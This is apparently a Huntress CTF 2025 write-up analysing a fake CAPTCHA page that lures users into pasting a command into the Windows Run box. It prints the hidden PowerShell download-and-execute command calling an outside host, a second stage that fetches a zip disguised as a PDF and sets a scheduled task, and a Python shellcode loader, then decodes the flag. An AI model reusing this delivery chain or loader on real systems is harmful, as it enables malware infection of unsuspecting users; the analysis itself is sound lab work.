



### Verify You Are Human

this is a challenge from [huntress](https://ctf.huntress.com) ctf 2025

#### Description

> My computer said I needed to update MS Teams, so that is what I have been trying to do...
> ...but I can't seem to get past this CAPTCHA!

#### My solution

You are first greeted by this page:


This page leads on to the next when you click to verify the page:


On this page it says to verify! It copys a command into your clipboard and wants you to exicute it in the windows runner. This is the command:
```
"C:\WINDOWS\system32\WindowsPowerShell\v1.0\PowerShell.exe" -Wi HI -nop -c "$UkvqRHtIr=$env:LocalAppData+'\'+(Get-Random -Minimum 5482 -Maximum 86245)+'.PS1';irm 'http://c8b9d11e.proxy.coursestack.com:443/?tic=1'> $UkvqRHtIr;powershell -Wi HI -ep bypass -f $UkvqRHtIr"
```
I analysed this command, it does the following:
- Create a hidden powershell prompt
- Create a powershell script file in your `%AppData%` directory
- Load the page `http://c8b9d11e.proxy.coursestack.com:443/?tic=1` into said file
- Then exicute that file in another hidden powershell prompt

The link `http://c8b9d11e.proxy.coursestack.com:443/?tic=1` contains the following powershell script:
```
$JGFDGMKNGD = ([char]46)+([char]112)+([char]121)+([char]99);$HMGDSHGSHSHS = [guid]::NewGuid();$OIEOPTRJGS = $env:LocalAppData;irm 'http://c8b9d11e.proxy.coursestack.com:443/?tic=2' -OutFile $OIEOPTRJGS\$HMGDSHGSHSHS.pdf;Add-Type -AssemblyName System.IO.Compression.FileSystem;[System.IO.Compression.ZipFile]::ExtractToDirectory("$OIEOPTRJGS\$HMGDSHGSHSHS.pdf", "$OIEOPTRJGS\$HMGDSHGSHSHS");$PIEVSDDGs = Join-Path $OIEOPTRJGS $HMGDSHGSHSHS;$WQRGSGSD = "$HMGDSHGSHSHS";$RSHSRHSRJSJSGSE = "$PIEVSDDGs\pythonw.exe";$RYGSDFSGSH = "$PIEVSDDGs\cpython-3134.pyc";$ENRYERTRYRNTER = New-ScheduledTaskAction -Execute $RSHSRHSRJSJSGSE -Argument "`"$RYGSDFSGSH`"";$TDRBRTRNREN = (Get-Date).AddSeconds(180);$YRBNETMREMY = New-ScheduledTaskTrigger -Once -At $TDRBRTRNREN;$KRYIYRTEMETN = New-ScheduledTaskPrincipal -UserId "$env:USERNAME" -LogonType Interactive -RunLevel Limited;Register-ScheduledTask -TaskName $WQRGSGSD -Action $ENRYERTRYRNTER -Trigger $YRBNETMREMY -Principal $KRYIYRTEMETN -Force;Set-Location $PIEVSDDGs;$WMVCNDYGDHJ = "cpython-3134" + $JGFDGMKNGD; Rename-Item -Path "cpython-3134" -NewName $WMVCNDYGDHJ; iex ('rundll32 shell32.dll,ShellExec_RunDLL "' + $PIEVSDDGs + '\pythonw" "' + $PIEVSDDGs + '\'+ $WMVCNDYGDHJ + '"');Remove-Item $MyInvocation.MyCommand.Path -Force;Set-Clipboard
```

This looks rather confusing with all the random varible names so I tried to make it a bit neater to see what was happening:
```
$PYC = ([char]46) + ([char]112) + ([char]121) + ([char]99);
$GUILDID = [guid]::NewGuid();
$LOCALAPP = $env:LocalAppData;
irm 'https://c8b9d11e.proxy.coursestack.com:443/?tic=2' -OutFile $LOCALAPP\$GUILDID.pdf;
Add-Type -AssemblyName System.IO.Compression.FileSystem;[System.IO.Compression.ZipFile]::ExtractToDirectory("$LOCALAPP\$GUILDID.pdf", "$LOCALAPP\$GUILDID");
$MAINPATH = Join-Path $LOCALAPP $GUILDID;
$GUILD_ID_STR = "$GUILDID";
$PYTHON = "$MAINPATH\pythonw.exe";
$CPY_D_PYC = "$MAINPATH\cpython-3134.pyc";
$SEDULE_PYTHON = New-ScheduledTaskAction -Execute $PYTHON -Argument "`"$CPY_D_PYC`"";
$SCHEDULED_RUN_TIME = (Get-Date).AddSeconds(180);
$SCHEDULE_TRIGGER = New-ScheduledTaskTrigger -Once -At $SCHEDULED_RUN_TIME;
$SCHEDULE_PINCIPAL = New-ScheduledTaskPrincipal -UserId "$env:USERNAME" -LogonType Interactive -RunLevel Limited;
Register-ScheduledTask -TaskName $GUILD_ID_STR -Action $SEDULE_PYTHON -Trigger $SCHEDULE_TRIGGER -Principal $SCHEDULE_PINCIPAL -Force;
Set-Location $MAINPATH;
$FULL_PYTHON_FILENAME = "cpython-3134" + $PYC;
Rename-Item -Path "cpython-3134" -NewName $FULL_PYTHON_FILENAME;
iex ('rundll32 shell32.dll,ShellExec_RunDLL "' + $MAINPATH + '\pythonw" "' + $MAINPATH + '\' + $FULL_PYTHON_FILENAME + '"');
Remove-Item $MyInvocation.MyCommand.Path -Force;
Set-Clipboard
```

This makes it a bit clearer about what it is doing.
One of the first major things it does is download a "pdf" from `https://c8b9d11e.proxy.coursestack.com:443/?tic=2`.
Looking at what type of file it is I get back: `Zip archive data, at least v2.0 to extract`.
This file is trying to act like a pdf but is clearly a zip file.
This is made clear when the next line in the script extracts the pdf file.
The extracted file has the python.exe aswell as some .pyc files which are python files that contain bytecode.
the only .py file I find is a file named `output.py`:
```py
import base64
#nfenru9en9vnebvnerbneubneubn
exec(base64.b64decode("aW1wb3J0IG ... cHRyKQpmbigp").decode('utf-8'))
#g0emgoemboemoetmboemomeio
```
It has a bit long base64 string that gets decoded and executed as more python.
the string after being decode is the following python script:
```py
import ctypes

def xor_decrypt(ciphertext_bytes, key_bytes):
    decrypted_bytes = bytearray()
    key_length = len(key_bytes)
    for i, byte in enumerate(ciphertext_bytes):
        decrypted_byte = byte ^ key_bytes[i % key_length]
        decrypted_bytes.append(decrypted_byte)
    return bytes(decrypted_bytes)

shellcode = bytearray(xor_decrypt(base64.b64decode('zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=='), base64.b64decode('me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA==')))
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr), buf, ctypes.c_int(len(shellcode)))
functype = ctypes.CFUNCTYPE(ctypes.c_void_p)
fn = functype(ptr)
fn()
```

This contins even more base64 and an xor decrypter.
I modified this file to print out the shell code and write it to a binary file:
```
import base64
import codecs

def xor_decrypt(ciphertext_bytes, key_bytes):
    decrypted_bytes = bytearray()
    key_length = len(key_bytes)
    for i, byte in enumerate(ciphertext_bytes):
        decrypted_byte = byte ^ key_bytes[i % key_length]
        decrypted_bytes.append(decrypted_byte)
    return bytes(decrypted_bytes)

shellcode = bytearray(xor_decrypt(base64.b64decode('zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=='), base64.b64decode('me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA==')))
print(shellcode)
data = codecs.decode(shellcode, "unicode_escape").encode("latin-1")
out_path = "decoded.bin"
with open(out_path, "wb") as f:
    f.write(data)

```
Output:
```
bytearray(b'U\x89\xe5\x81\xec\x80\x00\x00\x00h\x93\xd8\x84\x84h\x90\xc3\xc6\x97h\xc3\x90\x93\x92h\x90\xc4\xc3\xc7h\x9c\x93\x9c\x93h\xc0\x9c\xc6\xc6h\x97\xc6\x9c\x93h\x94\xc7\x9d\xc1h\xde\xc1\x96\x91h\xc3\xc9\xc4\xc2\xb9\n\x00\x00\x00\x89\xe7\x817\xa5\xa5\xa5\xa5\x83\xc7\x04Iu\xf4\xc6D$&\x00\xc6\x85\x7f\xff\xff\xff\x00\x89\xe6\x8d}\x80\xb9&\x00\x00\x00\x8a\x06\x88\x07FGIu\xf7\xc6\x07\x00\x8d<$\xb9@\x00\x00\x00\xb0\x01\x88\x07GIu\xfa\xc9\xc3')
```

Next I opened this binary file in IDA to decompile the file and see what the program wanted to do.

This assembly code shows date being pushed onto a stack and then xor'ed to decompile the data.
I copyed the data and the xor value and made a script to decrypt it:
```py
data = [
    0x8484D893,
    0x97C6C390,
    0x929390C3,
    0xC7C3C490,
    0x939C939C,
    0xC6C69CC0,
    0x939CC697,
    0xC19DC794,
    0x9196C1DE,
    0xC2C4C9C3
]

xor = 0x0A5A5A5A5
decoded_str = ""

for w in data:
    decoded_str = ((w ^ xor).to_bytes(4, 'little')).decode("utf-8") + decoded_str

print(decoded_str)
```

This then gave me the correct flag!: `flag{d34 ... c26}`

